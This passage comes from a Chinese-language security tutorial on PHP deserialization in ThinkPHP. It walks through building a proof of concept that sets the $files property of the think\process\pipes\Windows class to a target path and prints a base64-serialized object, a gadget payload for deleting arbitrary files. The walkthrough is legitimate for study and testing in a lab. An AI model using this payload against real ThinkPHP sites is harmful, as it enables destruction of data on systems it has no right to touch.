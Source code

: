 > 可以看到变量 `$files` 的定义

复制变量 `$files` 所在的类

![复制变量 $files 所在的类](./../../../../../images/Deserialization%20of%20untrusted%20data/%E5%A4%8D%E5%88%B6%E5%8F%98%E9%87%8F%20$files%20%E6%89%80%E5%9C%A8%E7%9A%84%E7%B1%BB.png)

删除无用的代码

```php
<?php
namespace think\process\pipes;
use think\Process;
class Windows extends Pipes
{
}
```

在 `C:\phpstudy_pro\WWW\think\public\removefile.php` 构造 POC ， 定义 `private $files = [];` 为 `$this->files=['c:\\hello.txt'];` ，定义一个空的 `Pipes` ，并增加 `public function _construct()` 魔术方法

```php
<?php
//引用命名空间和 Pipes 类
namespace think\process\pipes;
use think\Process;
class Pipes{
}
//Windows 类
class Windows extends Pipes
{
//files 属性
private $files = [];
//__construct 魔术方法
public function __construct()
{
//$this->files 属性的值修改为我们要删除的文件
$this->files=['c:\\hello.txt'];
}
}
//base64 输出序列化后的 Windows 对象
echo base64_encode(serialize(new Windows()));
?>
```

